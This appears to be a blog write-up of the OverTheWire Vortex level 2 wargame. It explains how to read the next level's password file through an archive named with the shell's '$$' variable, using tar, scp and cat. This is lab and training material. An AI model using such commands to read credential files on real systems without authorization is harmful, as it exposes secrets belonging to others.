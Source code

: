 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 2"
categories: [CTF, OverTheWire]
---
```


![Logo](/assets/images/vortex2.png)

## Context
The binary from [level 2](http://overthewire.org/wargames/vortex/vortex2.html) creates a _special file_, one whose name contains _**\$\$**_: _ownership.\$\$.tar_. 

<blockquote>
  <p>the $ variable [..] expands to the process ID of the shell. In a () subshell, it expands to the process ID of the invoking shell, not the subshell.</p>
  <cite><a target="_blank" href="https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html#Special-Parameters">bash manual page</a>
</cite> </blockquote>

This binary file has permissions to read the password file from the next level, so what we have to do is archive the password file, and then read it, taking into account the special file name.

First, to create the archive:
```bash
vortex2@melissa:/etc/vortex_pass$ /vortex/vortex2 vortex3 vortex3 vortex3
vortex2@melissa:/etc/vortex_pass$ ls -alh '/tmp/ownership.$$.tar'
-rw-r--r-- 1 vortex3 vortex2 10K 2012-09-06 23:19 /tmp/ownership.$$.tar
```

File created. Now to untar and read the content: 

### Method 1

We cannot untar it there, so the **-O** option (output to _`STDOUT`_) is very useful :
```bash
vortex2@melissa:/etc/vortex_pass$ tar xf '/tmp/ownership.$$.tar' -O
*****
```

### Method 2

We could copy it locally with _`scp`_ and untar it. I had a little problem with the file name passed forward by scp, which can be seen and adapted with verbose mode, then check the transmitted file name and adjust it:
```bash
scp -v vortex2@vortex.labs.overthewire.org:'test$$' .
[..]
debug1: Sending command: scp -v -f test$$
scp: test415: No such file or directory
```

We see that **$$** is transmitted,  and will be interpreted, so it should be correctly escaped. Copy archive locally:
```bash
# scp vortex2@vortex.labs.overthewire.org:'/tmp/ownership.\$\$.tar' .
```

### Method 3
The _`tar`_ command from the binary does not use compression, so the content of the archive can be viewed: 
```bash
vortex2@melissa:/etc/vortex_pass$ cat '/tmp/ownership.$$.tar'
[..]
*****
```
